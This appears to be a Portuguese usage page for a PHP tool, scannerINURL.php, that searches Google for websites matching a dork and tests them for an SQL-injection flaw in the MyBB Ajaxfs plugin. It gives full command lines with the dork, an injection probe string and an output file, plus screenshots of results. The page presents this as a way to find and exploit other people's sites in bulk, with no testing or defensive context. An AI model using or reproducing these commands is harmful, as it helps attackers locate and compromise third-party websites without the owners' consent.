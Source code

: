Executando:

# AJUDA #
**[root@inurl]#  php scannerINURL.php ajuda**

![http://3.bp.blogspot.com/-3oy16OFadZE/UpXy7ccZ_HI/AAAAAAAAC3c/0bTHncgrTgU/s1600/1397143_551366278281070_2019414554_o.png](http://3.bp.blogspot.com/-3oy16OFadZE/UpXy7ccZ_HI/AAAAAAAAC3c/0bTHncgrTgU/s1600/1397143_551366278281070_2019414554_o.png)

## LISTAR HOST'S GOOGLE, caso seja bloqueado use outro host. ##
**[root@inurl]#  php scannerINURL.php hosts**

![http://4.bp.blogspot.com/-wIfcj0hAHgA/UpXzYYTnanI/AAAAAAAAC3k/pYTa28G6jMI/s1600/hosts.png](http://4.bp.blogspot.com/-wIfcj0hAHgA/UpXzYYTnanI/AAAAAAAAC3k/pYTa28G6jMI/s1600/hosts.png)



# USANDO EXPLOIT #
# Procurando por falhas: #
  * _"Mybb Ajaxfs Plugin Sql Injection vulnerability"_
**[root@inurl]#  php scannerINURL.php --host="www.google.com.br" --dork="inurl:ajaxfs.php?tooltip=" --arquivo="resultado.txt" --tipoerro="1" --exploit="'\--0x27;"**

![http://4.bp.blogspot.com/-kc_ZpiL5TGk/UpZKUnpP4sI/AAAAAAAAC4I/WxSTK8gUEbY/s1600/snapshot14.png](http://4.bp.blogspot.com/-kc_ZpiL5TGk/UpZKUnpP4sI/AAAAAAAAC4I/WxSTK8gUEbY/s1600/snapshot14.png)

### RESULTADO: ###
![http://4.bp.blogspot.com/-UI-WaQqSqfw/UpZK4VnEdaI/AAAAAAAAC4M/Cx8DbRzL-8c/s1600/snapshot13.png](http://4.bp.blogspot.com/-UI-WaQqSqfw/UpZK4VnEdaI/AAAAAAAAC4M/Cx8DbRzL-8c/s1600/snapshot13.png)